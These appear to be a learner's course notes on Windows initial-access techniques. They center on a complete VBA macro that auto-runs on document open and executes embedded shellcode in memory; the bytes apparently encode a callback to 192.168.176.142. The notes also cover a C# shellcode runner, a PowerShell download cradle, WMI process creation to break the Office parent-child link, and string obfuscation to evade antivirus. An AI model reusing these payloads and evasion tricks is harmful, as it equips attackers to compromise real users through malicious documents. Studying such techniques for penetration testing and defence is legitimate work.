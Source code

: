 
## To Do:
1. 6.8.2 - Update the PowerShell shellcode runner to 64-bit.
2. rc4 encryption and macro obfuscation
3. test those against AV
### Shellcode Runner Again

- Main body consists of the following
```csharp
			int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
```
- `btye[] buf = new byte[###] {...}`
- VirtualAlloc is a Win32 function call and is imported into C# using 

### Using CsWin32 source generator

- Create project in VS Studio Code (C# Console or C# .Net Console app)
- Project needs to be sdk type
- Search for cswin32 and install
- ![[InstallCsWin32.png]]
- need to add addition nuget System.Memory package as well
```ps1

dotnet add package System.Memory

```
- or using VS Code
- ![[NuGetSystemMemory.png]]

- create NativeMethods.txt file in project
- Allow unsafe code
- ![[AllowUnsafeCode.png]]

**TODO** : Not Quite working for me yet. PInvoke."type" mapping doesn't match what was in the mapping from Offsec. Need to go through MS Docs.


### MS Office
- VBA Script to execute payload in memory
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```


### Powershell inside VBA

- Download cradle: hide a `powershell -exec bypass -nop -c iex()` inside a macro as a starting point
- call Shell stringArg, vbHide which will trigger some AV products
- problem is that Powershell becomes a child process of the calling MS Office program
- _Windows Management Instrumentation_ (WMI) framework can be leveraged to move around this
	- "**Windows Management Instrumentation** (**WMI**) consists of a set of extensions to the [Windows Driver Model](https://en.wikipedia.org/wiki/Windows_Driver_Model "Windows Driver Model") that provides an [operating system](https://en.wikipedia.org/wiki/Operating_system "Operating system") interface through which [instrumented](https://en.wikipedia.org/wiki/Instrumentation_(computer_programming) "Instrumentation (computer programming)") components provide information and notification." (https://en.wikipedia.org/wiki/Windows_Management_Instrumentation)
- Leverage WMI for process creation bypassing of MS Office and use WMI for the parent process
- To create a process, will need to use Win32_Process to instantiate
```vb
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```
- this will create a child Powershell process of the parent process Wmiprvse.exe

### TODO: re 64 vs 32 bit code (need to test this out)

- to circumvent running powershell in 32-bit mode on 64-bit system, one can use the Sysnative directory
- The **Sysnative** folder is only available in a 64-bit Windows
```powershell
%windir%\sysnative\WindowsPowerShell\v1.0\powershell.exe -file myScript.ps1
```
- can try checking directory and if exists, run 64-bit; otherwise, run 32-bit
```vb
If My.Computer.FileSystem.DirectoryExists("C:\backup\logs") Then
    Dim logInfo = My.Computer.FileSystem.GetDirectoryInfo(
        "C:\backup\logs")
End If
```

#### Obfuscation methods:

- StrReverse (string reverse) to break signature detection of WMI calls, etc...
- create a function that just calls StrReverse so that VBA code isn't littered with StrReverse calls 
- convert strings to charcode and encrypt the string
- obfuscate variable and function names
